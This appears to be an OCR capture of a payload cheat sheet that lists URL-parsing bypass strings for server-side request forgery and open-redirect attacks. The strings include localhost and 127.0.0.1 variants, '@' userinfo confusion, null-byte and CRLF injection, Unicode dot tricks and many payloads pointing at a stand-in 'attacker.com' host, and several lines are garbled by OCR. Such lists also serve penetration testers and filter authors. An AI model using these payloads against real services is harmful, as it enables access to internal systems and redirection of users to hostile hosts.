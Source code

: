 ```xml
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\\@127.2.2.2:80/
127.1.1.1:80\\@@127.2.2.2:80/
127.1.1.1:80:\\@@127.2.2.2:80/
127.1.1.1:80#\\@127.2.2.2:80/
```

# Domain

```bash
https:attacker.com
https:/attacker.com
http:/\\/\\attacker.com
https:/\\attacker.com
//attacker.com
\\/\\/attacker.com/
/\\/attacker.com/
/attacker.com
%0D%0A/attacker.com
#attacker.com
#%20@attacker.com
@attacker.com
<http://169.254.1698.254\\@attacker.com>
attacker%00.com
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ
# Try also to change attacker.com for 127.0.0.1 to try to access localhost
# Try replacing https by http
# Try URL-encoded characters
<https://{domain}@attacker.com>
https://{domain}.attacker.com
<https://{domain}%6D@attacker.com>
<https://attacker.com/{domain}>
<https://attacker.com/?d={domain}>
<https://attacker.com#{domain}>
<https://attacker.com>@{domain}
<https://attacker.com#@{domain}>
<https://attacker.com>%23@{domain}
<https://attacker.com>%00{domain}
<https://attacker.com>%0A{domain}
<https://attacker.com?{domain}>
<https://attacker.com///{domain}>
<https://attacker.com>\\{domain}/
<https://attacker.com>;https://{domain}
<https://attacker.com>\\{domain}/
<https://attacker.com>\\.{domain}
<https://attacker.com/.{domain>}
```